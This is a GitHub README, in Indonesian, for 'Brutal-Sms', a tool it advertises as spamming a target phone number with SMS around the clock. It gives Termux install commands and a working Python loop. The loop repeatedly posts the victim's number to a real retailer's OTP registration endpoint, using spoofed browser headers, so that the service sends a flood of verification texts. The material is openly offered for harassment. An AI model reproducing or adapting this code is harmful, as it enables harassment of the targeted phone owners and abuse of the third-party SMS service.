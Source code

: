 ## Brutal-Sms
Perfect Tools spam 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/AmmarrBN/Brutal-Sms
  bash install.sh
  cd Brutal-Sms
  python run.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **24 Jam non stop** |[✔️](https://github.com/AmmarrBN) |
| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |
| **Simple** |[✔️](https://github.com/AmmarrBN) |
| **No Encrypt** |[✔️](https://github.com/AmmarrBN) |
| **Subscribe** |[Here](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g) |
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)

